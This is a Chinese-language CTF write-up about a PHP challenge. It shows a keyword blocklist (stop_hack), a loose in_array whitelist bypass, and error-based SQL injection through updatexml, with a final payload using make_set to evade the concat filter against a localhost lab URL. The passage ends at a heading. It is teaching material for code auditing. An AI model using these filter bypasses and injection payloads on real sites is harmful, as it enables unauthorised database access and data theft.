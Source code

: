 ```php
}
else{
    die($conn->error);
}

?>
```

config.php

```php
<?php  
$servername = "localhost";
$username = "root";
$password = "root";
$dbname = "day1";

function stop_hack($value){
    $pattern = "insert|delete|or|concat|concat_ws|group_concat|join|floor|\/\*|\*|\.\.\/|\.\/|union|into|load_file|outfile|dumpfile|sub|hex|file_put_contents|fwrite|curl|system|eval";
    $back_list = explode("|",$pattern);
    foreach($back_list as $hack){
        if(preg_match("/$hack/i", $value))
            die("$hack detected!");
    }
    return $value;
}
?>
```

#### 分析

实际上这道题目考察的是 **in_array** 绕过和不能使用拼接函数的 **updatexml** 注入，我们先来看一下 **in_array** 的绕过。在代码中，程序把用户的ID值存储在 **$whitelist** 数组中，然后将用户传入的 **id** 参数先经过stop_hack函数过滤，然后再用 **in_array** 来判断用户传入的 **id** 参数是否在 **$whitelist** 数组中。这里 **in_array** 函数没有使用强匹配，所以是可以绕过的，例如： **id=1'** 是可以成功绕过 **in_array** 函数的

然后在说说 **updatexml** 注入，这题的注入场景也是在真实环境中遇到的。当 **updatexml** 中存在特殊字符或字母时，会出现报错，报错信息为特殊字符、字母及之后的内容，也就是说如果我们想要查询的数据是数字开头，例如 **7701HongRi** ，那么查询结果只会显示 **HongRi** 。所以我们会看到很多 **updatexml** 注入的 **payload** 是长这样的 **and updatexml(1,concat(0x7e,(SELECT user()),0x7e),1)** ,在所要查询的数据前面凭借一个特殊符号(这里的 **0x7e** 为符号 **'~'** )

再看 `stop_hack()` 函数未过滤 报错注入的 updatexml

#### 答案

```
?id=4 and (select updatexml(1,make_set(3,'~',(select flag from flag)),1))
```

```http
http://127.0.0.1:8081/security/hongri/day1/ctf/index.php?id=1%20and%20(select%20updatexml(1,make_set(3,%27~%27,(select%20flag%20from%20flag)),1))
```

### 拓展updatexml的技巧
